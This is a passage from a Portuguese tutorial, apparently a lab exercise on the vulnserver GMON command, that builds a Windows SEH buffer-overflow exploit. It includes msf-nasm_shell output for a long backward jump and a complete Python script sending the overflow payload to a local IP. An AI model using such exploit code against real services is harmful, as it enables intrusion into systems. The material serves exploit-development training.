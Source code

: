 E constatamos o total controle na execução do programa. Mas ainda temos outro problema para resolver: o buffer de “D” tem apenas 41 bytes de espaço, mas este tipo de problema, já resolvemos no comando GTER, e vamos fazer exatamente igual.

## PULANDO DE VOLTA PARA O BUFFER INICIAL

Desta vez, precisamos de 5 bytes para fazer um log jump back, e temos 41, está fácil.
Consultando a distancia com msf-nasm_shell, precisamos de um salto de 3557 bytes (3549 bytes de “A” + 4 bytes do POP/POP/RET + 4 bytes do short jump).

```bash
$ msf-nasm_shell
nasm > JMP $-3557
00000000  E916F2FFFF        jmp 0xfffff21b

```

Temos a distância e916f2ffff, vamos atualizar o script.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.30"
porta = 9999

offset = 10007

payload = b"GMON ./"
payload += b"A" * 3549
payload += b"\xeb\x08" # salto curto
payload += b"\x90\x90" # padding para o salto curto
payload += b"\x0b\x12\x50\x62"
payload += b"\x90\x90" # padding para o salto longo
payload += b"\xe9\x16\xf2\xff\xff" # salto longo
payload += b"D" * (offset - 3549 - 4 - 4 - 5)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()
print("Payload enviado.")
```

Analisando no Immunity:

![Enumaração do comando.](/img/std/winbof/winbof-60.png)
